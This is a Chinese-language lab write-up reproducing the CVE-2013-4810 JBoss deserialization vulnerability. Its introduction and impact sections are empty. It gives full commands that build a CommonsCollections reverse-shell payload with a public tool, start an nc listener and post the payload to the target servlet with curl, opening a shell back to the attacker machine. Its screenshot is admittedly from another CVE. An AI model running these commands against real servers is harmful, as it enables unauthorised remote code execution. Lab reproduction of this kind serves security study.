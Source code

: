 （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle
返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈\~），说明接口开发，存在反序列化漏洞

![](resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId24.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId26.png)

打开nc界面，发现shell已经弹回来了

![](resource/(CVE-2013-4810)JBossEJBInvokerServle反序列化漏洞/media/rId27.png)
